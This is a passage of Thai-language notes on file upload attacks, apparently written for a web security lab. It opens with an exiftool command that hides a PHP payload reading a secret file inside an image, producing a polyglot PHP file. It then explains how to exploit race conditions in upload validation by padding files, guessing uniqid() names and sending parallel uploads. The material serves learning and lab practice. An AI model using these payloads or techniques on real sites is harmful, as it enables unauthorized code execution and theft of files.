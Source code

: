 ```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.png -o polyglot.php
```

![alt text](image-18.png)


## Race Condition ในการอัปโหลดไฟล์ 

## เกิดขึ้นได้ยังไง?

**สถานการณ์ปกติ:**
เว็บไซต์สมัยใหม่เขาฉลาดแล้ว พอเราอัปโหลดไฟล์ เขาจะ:
1. เอาไฟล์ไปเก็บในโฟลเดอร์ชั่วคราวก่อน (ที่ปลอดภัย)
2. ตั้งชื่อแบบสุ่มๆ 
3. เช็คให้แน่ใจว่าไม่มีอันตราย
4. ถ้าโอเคค่อยย้ายไปที่จริง ถ้าไม่โอเคก็ลบทิ้ง

**แต่! บางเว็บไซต์ทำแบบเก่า:**
1. อัปโหลดไฟล์ขึ้นไปเลย (ในที่ที่รันได้)
2. แล้วค่อยเช็ค (ใช้เวลา 2-3 วินาที)
3. ถ้าผิดก็ลบ

**นี่แหละคือโอกาส!** ในช่วง 2-3 วินาทีที่ไฟล์ยังอยู่ เราสามารถส่ง request ไปรันไฟล์นั้นได้!

## เทคนิคทำให้ง่ายขึ้น

**1. ยืดเวลา:**
- ส่งไฟล์ใหญ่ๆ เช่น 50MB
- ใส่โค้ดอันตรายไว้ข้างหน้า
- ข้างหลังเติมข้อมูลขยะให้ไฟล์ใหญ่
- ระบบจะใช้เวลานานกว่าในการเช็ค = เราได้เวลามากกว่า

**2. เดาชื่อไฟล์:**
- ถ้าระบบใช้ `uniqid()` ของ PHP มันเดาได้
- หรือลองเดาแบบ brute-force

**3. ส่งหลายๆ ครั้ง:**
- อัปโหลดไฟล์เดียวกันหลายครั้งพร้อมกัน
- เพิ่มโอกาสที่จะโดนช่วงเวลาที่เหมาะสม
